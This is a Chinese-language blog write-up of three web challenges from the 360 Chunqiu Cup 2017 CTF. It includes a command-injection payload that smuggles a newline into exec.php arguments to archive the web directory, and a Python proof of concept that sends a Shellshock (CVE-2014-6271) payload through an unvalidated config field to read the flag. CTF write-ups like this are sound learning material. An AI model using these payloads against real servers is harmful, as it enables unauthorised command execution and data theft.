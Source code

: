 ```yaml
---
title: 360春秋杯2017 writeup
date: 2017-04-21 15:21:10
tags:
- ctf
- Blogs
categories:
- Blogs
---
```


题目不是太有趣，基本都是从hincon那里扒来的，正好整理完了，就发出来吧

<!--more-->

# where is my cat  #

没什么好说的，很有ichunqiu风格的一题

进去发现https签发机构不合法，点开发现颁证机关找到一个域名

到这里本以为是抄hitcon的，然后一通操作发现并不是...



然后发现cookie里有个host=0

把host改成那个域名，getflag

# 写一写 看一看 #

题目是原题抄
http://www.2cto.com/article/201510/446796.html

但是因为没有运维，所以服务器日常爆炸


进来发现可以编辑文件，然后找到exec.php

```
<?php
    highlight_file(__FILE__);

    $dir = 'tmp/'; 
    if(!file_exists($dir))
    mkdir($dir);   
    chdir($dir);
    if(!isset($_GET['shell'])){
    phpinfo();
    exit();
    }
    $shell = $_GET['shell'];
    for ( $i=0; $i<count($shell); $i++ ){
        if ( !preg_match('/^\w+$/', $shell[$i]) )
            exit();
    }  
    session_start();
    $path = $_SESSION['path'];
    $shell =  str_replace('path','/'.$path,implode(" ",$shell));
    exec("/bin/hence " . $shell);
?> 
```

前面都很好绕过，由于使用implode解参数，所以可以传入数组，但是输入只能输入字符很难受

先尝试wget+数字请求外网，貌似失败了，请求不到

然后是通过前台的编辑写文件内容，然后php+path执行，但是，做题的时候，编辑文件的接口炸了

最后想了一个办法，用tar压缩整个web目录

payload
```
http://106.75.34.78:2081/exec.php?shell[]=a%0A&shell[]=tar&shell[]=cvf&shell[]=ddog&shell[]=pathvarpathwwwpathhtml
```


下载下来grep找到flag


# mail #

打开http://106.75.106.156/web.tar.gz获取源码

发现核心问题是sendmail，但是没有可以利用的点

找到一篇文章
https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html

发现配合bash破壳漏洞可以执行任意命令
http://www.freebuf.com/articles/system/50065.html


option里有这样一段设置

![image_1be7kitqoi9p1dljektemf1ge69.png-24kB][1]

去追寻这个变量

```
function saveConfig($config){
   global $conn;
   foreach ($config as $key => $value) {
      $key = addslashes_deep($key);
      $strsql="select db_value from config where db_name='$key' limit 1"; 
      $result=mysql_query($strsql,$conn);
      $row = mysql_fetch_array($result);
      if(empty($row))
      {
         $strsql="insert into config(db_name,db_value) values('$key','$value')"; 
         $result=mysql_query($strsql,$conn);
      }else{
         $strsql="update config set db_value='$value' where db_name='$key'"; 
         $result=mysql_query($strsql,$conn);
      }
   }
}

function getConfig($key){
   global $conn;
   $strsql="select db_value from config where db_name='$key' limit 1"; 
   $result=mysql_query($strsql,$conn);
   $row = mysql_fetch_array($result);
   if(!empty($row))
   {
     return $row['db_value'];
   }
   return "";
}
```

配合option里的代码

```
if($_GET['action']== 'save')
{
  $config = $_POST['config'];
  
  saveConfig($config);
  
  die("<script>alert('保存成功！');history.go(-1);</script>");
}
```
我们发现修改里虽然没有timezone，但是并没有做任何校验，那我们直接post就可以修改了

poc
```
import requests

def f():
	url='http://106.75.106.156/options.php?action=save'
	payload={
		"config[timezone]":'''() { x; };  cat flag.php > /var/www/html/upload/1.txt''',
		"config[root_path]":"/var/www/html",
		"config[send_mail]":"xxx@mail.co",
	}
	cookies={
	"PHPSESSID":"7lm7gsvf2l54jvu1vejt2skvj5",
	}
	res=requests.post(url,cookies=cookies,data=payload)
	print res.content

f()
```

![{2EF1E062-1C81-DE56-2770-9A3E1CFA1953}.png-20.3kB][2]





  [1]: http://static.zybuluo.com/LoRexxar/uk2r4vybmrbcd4d0wnb2f9a2/image_1be7kitqoi9p1dljektemf1ge69.png
  [2]: http://static.zybuluo.com/LoRexxar/4tcmorcgh6ili90rfm9my3bf/%7B2EF1E062-1C81-DE56-2770-9A3E1CFA1953%7D.png